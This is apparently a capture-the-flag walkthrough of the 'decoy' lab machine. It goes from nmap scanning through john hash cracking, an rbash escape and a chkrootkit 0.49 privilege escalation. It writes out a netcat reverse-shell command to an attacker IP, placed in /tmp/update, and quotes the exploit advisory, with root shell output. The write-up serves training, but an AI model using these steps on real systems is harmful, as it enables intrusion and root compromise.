

# decoy
## Information Collect
### NMAP
#### Full Ports Scanning
```
┌──(aaron㉿aacai)-[~/Desktop/decoy]
└─$ sudo nmap -p- 192.168.146.70                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 11:52 HKT
Nmap scan report for 192.168.146.70
Host is up (0.00022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:73:1F:97 (VMware)

```
#### Specify Scanning
```
└─$ sudo nmap -p22,80 -sV -A 192.168.146.70
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 11:59 HKT
Nmap scan report for 192.168.146.70
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:73:1F:97 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.41 ms 192.168.146.70

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.64 seconds

```

<br>
We can see just opened two ports: 80, 22.
<br>
So let's start at web.
<br>
We can see a directory when I visit 80 port, also has a zip package.
<br>

<br>
Then download the zip to local, try to unzip
<br>

<br>
Sure enough, it needs a password, so run it with zip2john

```
└─$ zip2john save.zip >>passwd.txt
Created directory: /home/aaron/.john
ver 2.0 efh 5455 efh 7875 save.zip/etc/passwd PKZIP Encr: TS_chk, cmplen=668, decmplen=1807, crc=B3ACDAFE ts=90AB cs=90ab type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/shadow PKZIP Encr: TS_chk, cmplen=434, decmplen=1111, crc=E11EC139 ts=834F cs=834f type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/group PKZIP Encr: TS_chk, cmplen=460, decmplen=829, crc=A1F81C08 ts=8D07 cs=8d07 type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/sudoers PKZIP Encr: TS_chk, cmplen=368, decmplen=669, crc=FF05389F ts=1535 cs=1535 type=8
ver 2.0 efh 5455 efh 7875 save.zip/etc/hosts PKZIP Encr: TS_chk, cmplen=140, decmplen=185, crc=DFB905CD ts=8759 cs=8759 type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** save.zip/etc/hostname PKZIP Encr: TS_chk, cmplen=45, decmplen=33, crc=D9C379A9 ts=8CE8 cs=8ce8 type=0
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

Use zip2john to put the password hash in passwd.txt

┌──(aaron㉿aacai)-[~/Downloads]
└─$ cat passwd.txt 
save.zip:$pkzip$6*1*1*0*8*24*8759*a7409df1d7a76ad3809794d387209855bb7638aa589d5be62b9bf373d78055e1dd351925*1*0*8*24*1535*459926ee53809fa53fe26c3e4548cd7819791a638c8d96d3ec7cf18477ffa1e9e2e77944*1*0*8*24*834f*7d2cbe98180e5e9b8c31c5aec89c507011d26766981d17d249e5886e51ac03270b009d62*1*0*8*24*8d07*7d51a96d3e3fa4083bbfbe90ee97ddba1f39f769fcf1b2b6fd573fdca8c97dbec5bc9841*1*0*8*24*90ab*f7fe58aeaaa3c46c54524ee024bd38dae36f3110a07f1e7aba266acbf8b5ff0caf42e05e*2*0*2d*21*d9c379a9*9b9*46*0*2d*8ce8*aae40dfa55b72fd591a639c8c6d35b8cabd267f7edacb40a6ddf1285907b062c99ec6cc8b55d9f0027f553a44f*$/pkzip$::save.zip:etc/hostname, etc/hosts, etc/sudoers, etc/shadow, etc/group, etc/passwd:save.zip
View file contents
Then use john to crack the password

┌──(aaron㉿aacai)-[~/Downloads]
└─$ john passwd.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
manuel           (save.zip)     
1g 0:00:00:00 DONE 2/3 (2022-07-29 11:54) 33.33g/s 2663Kp/s 2663Kc/s 2663KC/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
You can see that john broke the zip password, which is manuel
```
<br>
Unzip it to view the contents of the folder

```
┌──(aaron㉿aacai)-[~/Downloads]
└─$ unzip save.zip
Archive:  save.zip
[save.zip] etc/passwd password: 
password incorrect--reenter: 
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname            
                                                                                                                                                        
┌──(aaron㉿aacai)-[~/Downloads]
└─$ cd etc                 
                                                                                                                                                        
┌──(aaron㉿aacai)-[~/Downloads/etc]
└─$ ls
group  hostname  hosts  passwd  shadow  sudoers
```
This contains the information of passwd, shadow, sudoers, then use john to see if you can brute force the password.
```
└─$ john shadow    
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
server           (296640a3b825115a47b68fc44501c828)     
Proceeding with incremental:ASCII
1g 0:00:02:31  3/3 0.006619g/s 5209p/s 5222c/s 5222C/s tiaky..tiku1
1g 0:00:05:39  3/3 0.002949g/s 5226p/s 5232c/s 5232C/s 26240a..26495a
```

Got the password for user 296640a3b825115a47b68fc44501c828 through john
<br>
try to log in with ssh

```
┌──(aaron㉿aacai)-[~/Downloads/etc]
└─$ ssh 296640a3b825115a47b68fc44501c828@192.168.146.70
The authenticity of host '192.168.146.70 (192.168.146.70)' can't be established.
ED25519 key fingerprint is SHA256:qzYkm7MeglkL3QtA6bU4nv7yc8jlb1x7fZ7ALPBohNQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.146.70' (ED25519) to the list of known hosts.
296640a3b825115a47b68fc44501c828@192.168.146.70's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul  7 16:45:50 2020 from 192.168.1.162
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ 

```
## Get normal user Permission
Now we break through the boundary to the inside of the target drone, but above we can see that this user is using rbash, not /bin/bash, so the following result is caused
```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
-rbash: whoami: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ip a
-rbash: ip: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $SHELL
/bin/rbash
```

We have no way to execute the command we want to execute

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ which python
-rbash: which: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ python -c 'import pty; pty.spawn("/bin/sh")'
-rbash: python: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
-rbash: python3: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ os.execute('/bin/sh')
-rbash: syntax error near unexpected token `'/bin/sh''
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ exec "/bin/sh"
-rbash: exec: restricted
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ 

```

Bypass rbash in a variety of ways

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ git
bash: git: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ zip
bash: zip: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ tar
bash: tar: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ vi
bash: vi: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ BASH_CMDS[a]=/bin/sh;a
$ BASH_CMDS[a]=/bin/sh;a
a: 1: BASH_CMDS[a]=/bin/sh: not found
a: 1: a: not found
$ export PATH=$PATH:/bin/
$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  ls  mkdir  SV-502  user.txt
$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:73:1f:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.70/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 69737sec preferred_lft 69737sec
    inet6 fe80::20c:29ff:fe73:1f97/64 scope link 
       valid_lft forever preferred_lft forever

Finally used BASH_CMDS(a)=/bin/sh; to bypass rbash
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:73:1f:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.70/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 67529sec preferred_lft 67529sec
    inet6 fe80::20c:29ff:fe73:1f97/64 scope link 
       valid_lft forever preferred_lft forever
$ whoami
296640a3b825115a47b68fc44501c828
$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
$ cat user.txt
35253d886842075b2c6390f35946e41f
$ 

```


## Privilege escalation
View file information in the user directory
```
$ ls -al
total 64
drwxr-xr-x 4 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  4096 Jul  7  2020 .
drwxr-xr-x 3 root                             root                              4096 Jun 27  2020 ..
lrwxrwxrwx 1 root                             root                                 9 Jul  7  2020 .bash_history -> /dev/null
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  3583 Jun 27  2020 .bashrc
-rwxr-xr-x 1 root                             root                             17480 Jul  7  2020 honeypot.decoy
-rw------- 1 root                             root                              1855 Jul  7  2020 honeypot.decoy.cpp
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 id -> /bin/id
lrwxrwxrwx 1 root                             root                                13 Jun 27  2020 ifconfig -> /bin/ifconfig
drwxr-xr-x 3 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  4096 Jun 27  2020 .local
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 ls -> /bin/ls
lrwxrwxrwx 1 root                             root                                10 Jun 27  2020 mkdir -> /bin/mkdir
-rwxr-xr-x 1 root                             root                               807 Jun 27  2020 .profile
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    66 Jun 27  2020 .selected_editor
drwxr-xr-x 3 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  4096 Jun 27  2020 SV-502
-rwxrwxrwx 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    33 Jul  7  2020 user.txt
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   173 Jun 27  2020 .wget-hsts

```
See a honeypot.decoy executable, execute it
```
$ ./honeypot.decoy
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.

```
At this time, it is time to run pspy
``` 
2022/07/29 01:46:04 CMD: UID=0    PID=504    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=506    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=505    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=507    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=509    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=508    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=513    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=511    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2022/07/29 01:46:04 CMD: UID=0    PID=510    | /bin/sh /root/chkrootkit-0.49/chkrootkit 
From the pspy process, you can see that root has been executing the chkrootkit file
```
and we can see below SV-502/logs
```
2020/06/27 18:56:58 CMD: UID=0    PID=12386  | tar -xvzf chkrootkit-0.49.tar.gz 
2020/06/27 18:57:04 CMD: UID=0    PID=12389  | -bash 
2020/06/27 18:57:04 CMD: UID=0    PID=12390  | -bash 
Exiting program... (interrupt)

```


<br>
Use wget to get linpeas[.]sh from the attacking machine

```
$ wget http://192.168.146.50/linpeas.sh       
--2022-07-29 01:06:59--  http://192.168.146.50/linpeas.sh                                                                                                                   
Connecting to 192.168.146.50:80... connected.                                                                                                                               
HTTP request sent, awaiting response... 200 OK
Length: 777005 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                 100%[========================================================================================>] 758.79K  --.-KB/s    in 0.01s   

2022-07-29 01:06:59 (66.2 MB/s) - ‘linpeas.sh’ saved [777005/777005]

$ ls
linpeas.sh  systemd-private-353b8b04e8d5407aa42c777f94128eb6-apache2.service-cYViVm  systemd-private-353b8b04e8d5407aa42c777f94128eb6-systemd-timesyncd.service-k2Cdrq
$ chmod 755 linpeas.sh
$ ./linpeas.sh

```

Obtain critical system availability information

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034     

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                          
[+] [CVE-2019-13272] PTRACE_TRACEME                                                                                                                                         

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,[ debian=7|8|9|10|11 ],fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

Only vulnerability information, sudo -l does not have any permissions
```

<br>
Next, check locally to see if there are any vulnerabilities related to chkrootkit

```
┌──(aaron㉿aacai)-[~/Desktop/decoy]
└─$ searchsploit chkrootkit                
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                                                                            | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                                                                                    | linux/local/33899.txt
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                                                                                                                                                                                  
┌──(aaron㉿aacai)-[~/Desktop/decoy]
└─$ 

```

Exactly corresponds to the version number!
<br>
Pull it locally to see what the content is

```
└─$ searchsploit -m linux/local/33899.txt
  Exploit: Chkrootkit 0.49 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/33899
     Path: /usr/share/exploitdb/exploits/linux/local/33899.txt
File Type: ASCII text

Copied to: /home/aaron/Desktop/decoy/33899.txt


                                                                                                                                                                                  
┌──(aaron㉿aacai)-[~/Desktop/decoy]
└─$ ls
33899.txt
                                                                                                                                                                                  
┌──(aaron㉿aacai)-[~/Desktop/decoy]
└─$ cat 33899.txt 
We just found a serious vulnerability in the chkrootkit package, which
may allow local attackers to gain root access to a box in certain
configurations (/tmp not mounted noexec).

The vulnerability is located in the function slapper() in the
shellscript chkrootkit:

#
# SLAPPER.{A,B,C,D} and the multi-platform variant
#
slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
tr -d :`
   fi
   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi
   done
   if [ ${STATUS} -eq 1 ] ;then
      echo "Warning: Possible Slapper Worm installed ($file_port)"
   else
      if [ "${QUIET}" != "t" ]; then echo "not infected"; fi
         return ${NOT_INFECTED}
   fi
}


The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.


Suggested fix: Put quotation marks around the assignment.

file_port="$file_port $i"


I will also try to contact upstream, although the latest version of
chkrootkit dates back to 2009 - will have to see, if I reach a dev there.   
```

According to the description of this vulnerability, we need to create a file in the /tmp directory, which we use to reverse shell

```
$ echo "/usr/bin/nc 192.168.146.50 4444 -e /bin/bash" > update
$ /usr/bin/chmod + x update

$ /usr/bin/chmod +x update

```

This /tmp/update will run periodically, so after a while we should be able to receive a shell

```
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.70] 46534
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:73:1f:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.70/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 64129sec preferred_lft 64129sec
    inet6 fe80::20c:29ff:fe73:1f97/64 scope link 
       valid_lft forever preferred_lft forever
pwd
/root
ls
chkrootkit-0.49
chkrootkit-0.49.tar.gz
log.txt
pspy
root.txt
script.sh
cat /root.txt
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)


```
### Privilege escalation succeeded